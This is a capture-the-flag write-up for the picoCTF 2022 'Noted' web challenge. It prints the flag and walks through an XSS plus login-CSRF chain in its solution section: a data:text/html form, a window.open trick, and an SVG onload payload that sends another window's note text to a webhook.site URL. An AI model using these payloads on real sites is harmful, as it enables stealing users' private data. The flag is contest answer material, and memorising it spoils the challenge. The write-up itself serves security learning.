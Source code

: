   # picoCTF2022: Noted

![Contest Date: 15.03.2022](https://img.shields.io/badge/Contest%20Date-15.03.2022-lightgrey.svg)
![Solve Moment: During The Contest](https://img.shields.io/badge/Solve%20Moment-During%20The%20Contest-brightgreen.svg)
![Score: 500](https://img.shields.io/badge/Score-500-brightgreen.svg)

## Description

> I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does not have access to the internet.




## Attached Files

- noted.tar.gz

## Flag

```
picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}
```

## Detailed Solution

After looking at the source, it seems that this is a website that allows users to create an account, login, and then (upon login) create notes. The notes seem to be visible only to the logged in user and not accessible through some URL. We can start by looking through similar past web exploit challenges and writeups that involved note taking apps. After searching online for these, we can get some results such as [TBDXSS](https://ctftime.org/task/17592) and [XSS On Other Domain](https://www.youtube.com/watch?v=9ecv6ILXrZo). Given these results, XSS seems to be the way to go, but we need to first see if the website is vulnerable to it; to do so, we first create a account and we enter in a sample test payload in our notes such as
```js
  <script>alert(1)</script>
```
Putting this in Notes, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%202.39.01%20PM.png)</p>

We get, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%202.43.57%20PM.png)</p>

This confirms that the website is vulnerable to XSS.  

So now let's try to reiterate on what we exactly want to do. We want some payload, which our bot will run to steal its notes which will contain the flag. However, we need to make the bot run this directly. At this point, I got multiple ideas on how to approach this. One of my initial plans was to directly fetch the notes of the bot, using the `fetch()` command, then taking that response, and sending its text to our webhook which then would be the flag. But after trying it out, we would see that this would not work. After a lot of googling, we would see that this would be common in a lot of XSS challenges, and is caused by the CORS policy disabled. At this point, I tried searching up CORS Bypass, and got [Hacktricks](https://book.hacktricks.xyz/pentesting-web/cors-bypass) and got [Medium](https://medium.com/the-crazy-coder/a-comprehensive-understanding-of-cors-all-frontend-developers-better-to-have-3ae46d35f19e). Here, I went in to wrong direction for a while thinking that this would be a promising idea, and after a lot of frusteration I decided that this is not the right path, and decided to change my logic. I then looked back at those writeups I had searched up in the beginning, and saw that we can either use a iframe or window to have the notes, then we can login. We also have it a bit easy, because we automatically go to the notes of the user, after we login. So here, I thought that would it be possible to somehow access that window we had opened before logging in? After some testing, and searching up how Windows work. It turned out YES! We can access that window that we opened and we keep it open as we login. Then the XSS can access the previously opened page's content because of same-origin. So now putting together our small broken up steps to get our plan, we first open a window of the bot's notes, then we can login as our temporary user. This will then access our temporary user's notes, where we can do XSS, to open our previously opened window of the bot's notes, which we can then send to our webhook as a GET request, where we can get the flag. Now that we have the plan, it's time to implement this and put it together. We can start off with the code we're going to inject in the Report function. To login as our user, we can use the <form> and <input> tags, with them put together as
```html
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
```

Then we want want to open up a window, with the bots notes and submit the form. To open up a window we can use `window.open()`, and to submit the form we can use ``setTimeout(`WebsiteForm.submit(), 1000`)``. Putting this together, we get 

```html
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
<script>window.open('http://0.0.0.0:8080/notes','window1');setTimeout(`WebsiteForm.submit()`)</script>
```

We also have to put this with data:text/html, so we actually get

```html
data:text/html,
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
<script>window.open('http://0.0.0.0:8080/notes','window1');setTimeout(`WebsiteForm.submit()`)</script>
```

Now we need to create the XSS we will use in our notes of the temporary user. So searching this up [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting), we can abuse some html tag. I chose to abuse the <svg tag, but you can use anything. Now, we want to open the window that has the bot's notes, and somehow send it to our webhook. After thinking about it, I realized that I can put it in the request itself, by putting the url of the webhook, and concatenating it with the note text. Putting this together we get,

```html
<svg onload="window.location='https://webhook.site/5ca98311-0281-432a-a3f7-6ebd23deb0dc/'+window.open('', 'window1').document.body.textContent">
```

Now we have our full payload, which *might* work. Let's try it out!

Putting our payload in our temporary user's notes: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.02.11%20PM.png)</p>

Putting our payload in the Report function: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.04.06%20PM.png)</p>
  
Webhook Request: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.05.36%20PM.png)

Url Decoding: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.07.43%20PM.png)
 
That's our flag! That's all for the writeup for Noted.
